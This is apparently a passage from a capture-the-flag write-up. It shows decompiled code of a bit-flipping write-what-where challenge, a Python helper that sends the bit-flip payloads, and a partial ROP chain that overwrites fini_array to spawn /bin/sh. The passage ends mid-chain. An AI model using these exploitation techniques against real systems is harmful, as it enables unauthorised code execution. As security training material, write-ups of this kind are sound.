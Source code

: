 ```c
__int64 sub_400C22(){
  sub_4107D0(off_6D57A8, 0LL, 2LL, 0LL); // setvbuf 
  sub_4107D0(off_6D57A0, 0LL, 2LL, 0LL); // setvbuf
  sub_449280(60LL);  // alarm
  sub_400B6D();  // banner
  sub_400B7E();  // write-what-where
  return 0LL;
}
```

part of `sub_400B7E` function:

```c
while ( dword_6D7330 <= 0 ){
    sub_40F780((unsigned __int64)"\x1B[1maddr:\x1B[m ");
    a2 = "%p:%u";
    a1 = off_6D57A8;
    sub_40F900((__int64)off_6D57A8, (__int64)"%p:%u", &v7, &v6); // scanf
    if ( v6 > 7 )
        break;
    *v7 ^= 1LL << v6;  // modify one byte 
    ++dword_6D7330;
}
```

In `sub_400B7E` we can modify one byte of target address by XOR :`*v7 ^= 1LL << v6;`.

But in this function, only one time can we modify, so we need to modify `dword_6D7330`(the variable that control the loop) firstly. 

We can modify one byte to any value by xor for many times, here is the helper function:

```python
def modify(addr,data):
    for i in range(8*8):
        if data&(1<<i):
            payload = "%s:%d"%(hex(addr+i/8),i%8)
            sla('\x1B[1maddr:\x1B[m ',payload)
```

### Solution

#### infinite loop 

modify `0x6D7330` with `0x80000000`, then `dword_6D7330` will become a negative number:

```python
modify(0x6D7330,0x80000000)
```

#### modify fini array

function in `fini_array` would be executed after main, so we can modify them to hijack rip.

```python
# gadget
prdi = 0x004006a6 # pop rdi ; ret
prsi = 0x00410433
prdx = 0x00449af5
prax = 0x0045fdf4
syscall = 0x00449285
leave = 0x00400c20

# elf, libc
fini_array = 0x6d2150
raw = [0x0000000000400b00,   # 0 -> leave 
       0x0000000000400590,   # 1 -- nop
       0x0000000d00000002,   # 2 -> prdi
       0x00000000004ada80,   # 3 -> 0x6d21a8 -> /bin/sh
```